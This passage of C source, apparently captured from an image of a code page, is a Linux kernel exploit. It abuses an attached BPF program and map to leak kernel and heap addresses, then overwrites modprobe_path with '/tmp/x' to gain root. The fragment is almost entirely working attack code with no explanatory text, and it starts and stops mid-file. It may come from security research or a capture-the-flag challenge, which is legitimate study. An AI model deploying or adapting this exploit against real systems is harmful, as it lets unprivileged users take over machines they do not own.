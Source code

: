 ```c
    socketpair(AF_UNIX, SOCK_DGRAM, 0, socks);
    assert(setsockopt(socks[0], SOL_SOCKET, SO_ATTACH_BPF,
                        &prog_fd, sizeof(prog_fd)) == 0);
    mapbuf = (char *) malloc(0x100);
    mapbuf_64 = (uint64_t *) mapbuf;
    memset(mapbuf, 0, 0x100);
}

void trigger_hook()
{
    char buf[64] = {0};
    puts("trigger hook ...");
    syscall(__NR_write, socks[1], buf, sizeof(buf));
}

void leak_kern()
{
    mapbuf_64[0] = 0;
    bpf_update_elem(map_fd, &key, mapbuf, 0);
    trigger_hook();
    bpf_lookup_elem(map_fd, &key, mapbuf);
    kern = mapbuf_64[0];
    _log("kern", kern);
}

void leak_heap()
{
    mapbuf_64[0] = 2;
    bpf_update_elem(map_fd, &key, mapbuf, 0);
    trigger_hook();
    bpf_lookup_elem(map_fd, &key, mapbuf);
    heap = mapbuf_64[0];
    _log("heap (map_addr)", heap);
}

void overwrite_modprobe_path()
{
    uint64_t modprobe_path = kern + 0x6368c0;
    uint64_t xor_val = modprobe_path ^ heap;

    mapbuf_64[0] = 1;
    mapbuf_64[1] = xor_val;
    mapbuf_64[2] = 0x782f706d742f; // /tmp/x
    _log("modprobe_path", modprobe_path);
    _log("xor_val", mapbuf_64[1]);

    bpf_update_elem(map_fd, &key, mapbuf, 0);
    trigger_hook();
    bpf_lookup_elem(map_fd, &key, mapbuf);
    _log("overwrite modprobe_path done", 0);
}

void exploit()
{
    leak_kern();
    leak_heap();
    overwrite_modprobe_path();
}

int main()
{
    init_proc();
    exploit();
```
